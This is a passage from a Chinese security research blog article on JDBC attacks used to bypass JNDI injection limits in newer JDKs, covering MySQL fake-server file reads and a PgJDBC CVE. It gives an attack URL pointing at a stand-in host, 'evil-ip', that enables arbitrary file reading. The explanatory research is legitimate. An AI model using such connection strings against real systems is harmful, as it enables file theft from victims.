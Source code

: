 ```yaml
---
slug: tiangongarticle040
date: 2024-07-24
title: JDBC Attack 与高版本 JDK 下的 JNDI Bypass
author: crumbledwall
avatar: /authors/crumbledwall.jpg
info: 天工实验室安全研究员，研究领域：Web安全、静态分析。
tags: [Java, JDBC, JNDI]
---
```


# JDBC Attack 与高版本 JDK 下的 JNDI Bypass

## 一、前言

JNDI 注入作为 Java 攻击的常见 Sink 点，通常被用于 Weblogic 以及 Fastjson 等常见目标的攻击流程中，而 JNDI 注入的利用经过 JDK 新版本对相关利用的修复，以及一些常见依赖利用方式的变化，在高版本 JDK 中，其利用逐渐遭遇了困境。而 JDBC Attack，作为针对 Java 数据库引擎的一种攻击方式，除了其常规的利用方式之外，也可以与原生反序列化结合起来，实现对 JNDI 攻击的扩展，解决高版本下 JNDI 注入的困境。



## 二、关于 JDBC Attack

 ![](/attachments/2024-07-24-jdbc-attack-jndi-bypass/e84fd309-622b-4a63-b11c-d74bf141c4a5.gif)

首先是关于基础的JDBC Attack的一些回顾，JDBC 是Java应用在连接不同的底层数据库引擎时使用的抽象层，使得Java应用可以用相同的接口对各种不同的数据库进行抽象的控制，JDBC使用如下的URL格式进行连接。

```java
Class.forName("com.mysql.cj.jdbc.Driver");
String url = "jdbc:mysql://mysql.db.server:3306/my_database?useSSL=false&serverTimezone=UTC"
Connection conn = DriverManager.getConnection(url)
```

而该URL中，后面的可控参数就是针对不同数据库Driver进行利用的入口。

接下来我们来回顾一下常见的几个 Driver 的利用：

### 2.1 MySQL Driver

针对MySQL Driver的通用利用主要是使用 Fake Server 进行任意文件读，首先需要配置 MySQL fake server，然后开启 allowLoadLocalInfile=true 设置，构造形如  jdbc:mysql://evil-ip:3306/test?allowLoadLocalInfile=true 的 URL 去请求 fake server 即可进行利用。

对于 MySQL 也可以打反序列化，但是有版本限制，只有较老的 \<= 8.0.20, \< 5.1.49 的版本可以利用，可以配置不同的 URL 参数来开启反序列化的利用，下表是节选自《Make JDBC attack brilliant again》议题的具体利用 URL 参数。

 ![](/attachments/2024-07-24-jdbc-attack-jndi-bypass/069bd3d5-f2e6-413c-a8c3-ca5ed4081c17.png)

### 2.2 PostgreSQL

pgsql 的利用则是22年爆的一个洞，即 CVE-2022-21724，影响版本为 9.4.1208 \<= PgJDBC \< 42.2.25 与 42.3.0 \<= PgJDBC \< 42.3.2。
